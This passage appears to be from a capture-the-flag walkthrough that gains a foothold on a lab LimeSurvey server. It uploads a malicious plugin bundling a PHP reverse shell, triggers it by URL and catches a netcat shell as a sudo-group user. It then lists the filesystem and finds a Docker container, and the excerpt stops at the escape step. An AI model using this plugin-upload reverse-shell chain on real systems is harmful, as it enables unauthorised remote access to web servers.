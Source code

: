 The files are now ready to be zipped.
```bash
┌──(kali㉿kali)-[~/Limesurvey-RCE]
└─$ zip exploit.zip config.xml php-rev.php 
  adding: config.xml (deflated 57%)
  adding: php-rev.php (deflated 61%)
```

Upload the ZIP file and install the plugin, next go to: `"Action", "Activate"`.
![Pasted image 20240714125723.png](/images/Pasted image 20240714125723.png){: .normal }


Now that the plugin is uploaded, installed and activated we can execute our reverse shell.
```
<http://10.10.105.122/survey/upload/plugins/Y1LD1R1M/php-rev.php>
```

We should now have a shell as the limesvc user.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.1.49] from (UNKNOWN) [10.10.105.122] 41110
Linux efaa6f5097ed 6.2.0-1012-aws #12~22.04.1-Ubuntu SMP Thu Sep  7 14:01:24 UTC 2023 x86_64 GNU/Linux
 11:04:06 up 55 min,  0 users,  load average: 0.04, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
/bin/sh: 0: can't access tty; job control turned off
$
```


## Escape Docker
Looks like we are in a Docker environment (.dockerenv).
```bash
meterpreter > ls
Listing: /
==========

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  0     fil   2023-12-02 16:30:12 +0100  .dockerenv
040755/rwxr-xr-x  4096  dir   2023-12-02 16:28:48 +0100  bin
040755/rwxr-xr-x  4096  dir   2023-09-29 22:00:00 +0200  boot
040755/rwxr-xr-x  340   dir   2024-01-29 11:09:05 +0100  dev
040755/rwxr-xr-x  4096  dir   2023-12-02 16:30:12 +0100  etc
040755/rwxr-xr-x  4096  dir   2023-12-02 16:28:38 +0100  home
040755/rwxr-xr-x  4096  dir   2023-11-21 15:01:29 +0100  lib
040755/rwxr-xr-x  4096  dir   2023-11-20 01:00:00 +0100  lib64
040755/rwxr-xr-x  4096  dir   2023-11-20 01:00:00 +0100  media
040755/rwxr-xr-x  4096  dir   2023-11-20 01:00:00 +0100  mnt
040755/rwxr-xr-x  4096  dir   2023-11-20 01:00:00 +0100  opt
040555/r-xr-xr-x  0     dir   2024-01-29 11:09:05 +0100  proc
040700/rwx------  4096  dir   2023-12-02 16:30:31 +0100  root
040755/rwxr-xr-x  4096  dir   2024-01-29 12:10:14 +0100  run
040755/rwxr-xr-x  4096  dir   2023-12-02 16:28:48 +0100  sbin
040755/rwxr-xr-x  4096  dir   2023-11-20 01:00:00 +0100  srv
040555/r-xr-xr-x  0     dir   2024-01-29 11:09:05 +0100  sys
041777/rwxrwxrwx  4096  dir   2024-01-29 12:13:00 +0100  tmp
040755/rwxr-xr-x  4096  dir   2023-11-20 01:00:00 +0100  usr
040755/rwxr-xr-x  4096  dir   2023-11-21 15:01:33 +0100  var
```
